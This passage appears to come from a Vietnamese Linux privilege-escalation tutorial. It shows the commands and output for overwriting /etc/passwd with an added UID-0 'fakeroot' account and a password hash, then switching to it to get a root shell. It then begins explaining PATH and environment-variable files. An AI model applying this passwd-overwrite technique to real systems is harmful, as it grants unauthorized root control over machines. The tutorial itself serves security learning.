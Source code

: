 ```none
cp passwd /etc/passwd
```

Kiểm tra xem đã ghi đè thành công chưa bằng cách đọc 3 dòng cuối của **/etc/passwd**  
Command: `tail -n 3 /etc/passwd`

```none
$ tail -n 3 /etc/passwd
test1:x:1002:1003::/home/test1:/bin/sh
test123:x:1003:1004::/home/test123:/bin/sh
fakeroot:$1$123$fFdLE/c/HAQnsD7rpaQk4.:0:0::/root/root:/bin/bash
$ su fakeroot
Password: 
root@kali:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```


# 4 Using PATH Variables
### Environment Variables

Khi bạn tương tác với hệ thống Linux/Unix trên một Shell session (Ở ubuntu mặc định là **Bash shell**), sẽ có rất nhiều thông tin khác nhau mà shell sử dụng để biết được nó phải làm gì hay cần truy cập tới resources nào trên hệ thống. Khi một shell được mở, một process sẽ được dùng để thu thập và compiles những thông tin cần thiết được dùng cho shell và subshells của shell.

Những thông tin đó có thể lấy từ:

1.  **User input**
    
2.  **Linux Environment settings**, đó là một hệ thống các system-wide files và local files. System-wide files thì ảnh hưởng tới toàn bộ user, còn local files nằm trong thư mục **/home** của user và chỉ ảnh hưởng tới user đó. Với bash user, các system-wide files này bao gồm các file hệ thống:
    
    ```none
    /etc/environment
    /etc/bash.bashrc
    /etc/profile
    ```
    
    và một số files ở local:
    
    ```none
    ~/.bashrc
    ~/.profile -- not read if ~/.bash_profile or ~/.bash_login
    ~/.bash_profile
    ~/.bash_login
    ```
	Cái mà chúng ta quan tâm ở đây đó là **/etc/environment**. Về cơ bản thì các shell process, sử dụng environment như một phương tiện, nó GET hoặc (SET lại) các settings và sau đó lần lượt chuyển chúng cho những child processes của nó.
	
ENV được implement dưới dạng strings ở dạng key-value, nếu có nhiều value thì chúng sẽ được phân cách bằng dấu **:**
